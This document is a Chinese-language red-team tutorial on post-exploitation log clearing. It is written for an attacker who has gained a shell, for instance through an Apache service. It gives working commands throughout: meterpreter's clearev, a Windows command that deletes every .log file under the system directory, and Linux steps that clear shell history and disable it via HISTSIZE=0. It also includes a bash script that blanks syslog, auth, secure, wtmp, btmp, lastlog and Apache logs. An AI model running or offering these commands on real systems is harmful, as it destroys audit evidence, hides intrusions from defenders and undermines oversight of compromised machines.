 仅系统日志清理，如果目标服务存在日志服务器的话，所有日志还会被保留。这里仅清理系统相关日志，如果访问了某些服务，比如说通过 apache 服务获得一个 shell，你还需要清理 apache 服务的访问日志。

## 1 Windows

> Windows 下运行 eventvwr 查看日志

msf 清理

```
meterpreter > clearev
```

cmd 清理

```
meterpreter > shell
C:\Windows\system32>del %WINDIR%\*.log /a/s/q/f
```

## 2 Linux

>Linux 可能根据发行版本不同，日志文件名称也有所不同。所以具体清除需要大家先看一下目标操作系统

清理历史命令（仅能清理当下进程）

```
[root@CentOS-76 ~]# history -c
```

使系统不再保存历史命令

```
[root@CentOS-76 ~]# vim /etc/profile
```

> 将 `HISTSIZE=1000` 改为 `HISTSIZE=0`，

```
HISTSIZE=1000
```

```
HISTSIZE=0
```

删除访问日志

1. 访问失败的日志

```
[root@CentOS-76 ~]# echo > /var/log/btmp
```

2. 访问成功的日志

```
[root@CentOS-76 ~]# echo > /var/log/wtmp
```

> 删除后执行 `last` 命令就会发现没有记录

执行脚本

```
[root@CentOS-76 ~]# source clear_logs_linux.sh
```

```sh
#!/bin/bash
#Linux 日志&命令清理
echo > /var/log/syslog
echo > /var/log/messages
echo > /var/log/httpd/access_log
echo > /var/log/httpd/error_log
echo > /var/log/xferlog
echo > /var/log/secure
echo > /var/log/auth.log
echo > /var/log/user.log
echo > /var/log/wtmp
echo > /var/log/lastlog
echo > /var/log/btmp
echo > /var/run/utmp
history -c
```

> source 在当前进程下执行
>
> 执行时注意文件是否有执行权限。而且只有 root 才可以删除日志。

---

Refrences

- [日志清理](https://wiki.iredteam.cn/the-report-stage/log-cleaning)